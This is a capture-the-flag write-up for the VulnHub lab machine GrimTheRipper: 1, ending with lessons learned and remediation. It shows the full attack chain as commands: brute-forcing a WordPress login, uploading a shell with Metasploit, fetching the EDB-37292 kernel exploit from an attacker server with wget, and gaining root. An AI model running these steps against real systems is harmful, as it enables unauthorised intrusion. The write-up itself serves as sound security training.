

# GrimTheRipper: 1 — Writeup

| | |
|-|-|
| **Target IP** | 192.168.0.8 (host-only) |
| **Difficulty** | Easy |
| **OS** | Linux (Ubuntu 12.04) |
| **Root Flag** | /root (id output confirms root) |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/grimtheripper-1,395/) |

## Attack Summary

nmap → web page source (base64 path hint) → WordPress at `/1010101/wordpress/` → wpscan brute-force (admin:Password@123) → Metasploit wp_admin_shell_upload → shell → kernel exploit 37292 (Ubuntu 12.04) → root

## Methodology

1. Network discovery and port scan
2. Web enumeration — decode base64 comment in page source
3. Discover WordPress instance at hidden path
4. wpscan brute-force attack
5. Metasploit WordPress shell upload
6. Kernel privilege escalation (CVE-2015-1328)

---

## Step 1: Network Discovery

```bash
sudo netdiscover -i eth1 -r 192.168.0.0/24
nmap -A 192.168.0.8
```

Open ports: 22 (SSH), 80 (HTTP).



---

## Step 2: Web Enumeration

Browse to `http://192.168.0.8` — the page shows an image. Check the page source for a hidden comment:

```bash
curl -s http://192.168.0.8/ | grep -i "base64\|<!--"
```

The source contains a base64-encoded hint. Decode it:

```bash
echo 'THpFd0f1UQXhNREU5IHRyeSBoYXJk' | base64 -d
# Decode to find a path hint
echo 'LzEwMTAxMDE=' | base64 -d
# /1010101
```

```bash
dirb http://192.168.0.8/
# Finds /1010101/ directory
```


---

## Step 3: WordPress Discovery and Brute-Force

A WordPress site exists at `http://192.168.0.8/1010101/wordpress/`. The admin username is `admin`.

```bash
wpscan --url http://192.168.0.8/1010101/wordpress/ \
       --wp-content-dir /1010101/wordpress \
       -U admin \
       -P /usr/share/wordlists/rockyou.txt
# Credentials found: admin:Password@123
```


---

## Step 4: Metasploit WordPress Shell Upload

```bash
msfconsole
use exploit/unix/webapp/wp_admin_shell_upload
set RHOSTS 192.168.0.8
set USERNAME admin
set PASSWORD Password@123
set TARGETURI /1010101/wordpress/
exploit
```

After a Meterpreter session opens:

```bash
shell
python -c 'import pty; pty.spawn("/bin/bash")'
id
# uid=33(www-data)
lsb_release -a
# Ubuntu 12.04
```


---

## Step 5: Kernel Privilege Escalation (EDB-37292)

Ubuntu 12.04 is vulnerable to overlayfs local privilege escalation (CVE-2015-1328):

```bash
searchsploit Ubuntu 12.04
searchsploit -m 37292

# On attacker machine — serve the exploit
python -m SimpleHTTPServer 8000

# On target
cd /tmp
wget http://192.168.0.10:8000/37292.c
gcc 37292.c -o shell
chmod 777 shell
./shell
id
# uid=0(root)
```


---

## Lessons Learned

1. **Weak WordPress credentials** — brute-forced in seconds with rockyou.txt; enforce strong password policies and rate-limiting on `/wp-login.php`
2. **Hidden paths via base64 in source** — security through obscurity is not security; rely on access controls
3. **WordPress admin shell upload** — restrict admin panel access to trusted IPs; keep WordPress updated
4. **Outdated kernel (Ubuntu 12.04)** — end-of-life OS with known LPEs; upgrade or isolate with container security

## Remediation

| Vulnerability | Fix |
|---------------|-----|
| Weak WP credentials | Use a strong password; add Fail2Ban or similar rate limiter |
| Exposed WordPress admin | Restrict `/wp-admin/` to trusted IPs via `.htaccess` |
| Kernel CVE-2015-1328 | Upgrade OS; apply kernel patches |
